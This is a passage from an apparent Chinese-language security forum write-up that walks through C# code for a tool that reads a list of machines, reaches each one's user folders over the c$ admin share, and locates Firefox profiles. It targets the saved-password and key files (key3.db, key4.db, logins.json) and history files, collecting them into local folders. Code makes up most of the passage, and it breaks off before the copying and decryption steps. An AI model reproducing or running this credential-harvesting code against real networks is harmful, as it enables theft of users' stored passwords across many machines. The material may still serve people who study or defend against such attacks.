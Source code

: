 ```php
    return retVal;
}
```

读取machine.txt然后丢给IsMachineUp方法

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-83b642dd13750c011e2e77c4761c8dee2cc9a908.png)

如果机器存活，在本机创建FireFoxInfo目录

```php
string currentpath = Directory.GetCurrentDirectory();
FireFoxInfo = currentpath + "\\FireFoxInfo";
Directory.CreateDirectory(FireFoxInfo);
Console.ForegroundColor = ConsoleColor.Red;
Console.WriteLine("[*]" + machine);
Console.ForegroundColor = ConsoleColor.White;
```

然后获取`c:\users\`目录下的用户目录再判断firefox配置文件是否存在与改用户目录，如果存在则在本地继续创建对应的用户目录，方便于区分

```php
string userpath = @"\\" + machine + @"\c$\users";
var user_list = Directory.EnumerateDirectories(userpath);
foreach (string user in user_list)
{
    string username = substring(user);
    string ProfilePathss = user + "\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles";
    if (Directory.Exists(ProfilePathss))
    {
        Console.ForegroundColor = ConsoleColor.Yellow;
        Console.WriteLine("[*]" + user);
        Console.ForegroundColor = ConsoleColor.White;
        //create machine directory
        string MachineFolder = FireFoxInfo + "\\" + machine;
        Directory.CreateDirectory(MachineFolder);
        //create user direcotry
        string UserFolder = MachineFolder + "\\" + username;
        Directory.CreateDirectory(UserFolder);
```

接下来我们需要判断是否存在一下文件

> Firefox 版本 &lt;32 (key3.db, signons.sqlite)  
> Firefox 版本 &gt;=32 (key3.db, logins.json)  
> Firefox 版本 &gt;=58.0.2 (key4.db, logins.json)  
> Firefox 版本 &gt;=75.0 (sha1 pbkdf2 sha256 aes256 cbc used by key4.db, logins.json)

```php
string old_firefox_key = "key3.db";
string firefox_key = "key4.db";
string firefox_json = "logins.json";
string firefox_cookie = "places.sqlite";
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c2857eff96780b4348ea4f487d3dd3b467729b45.png)
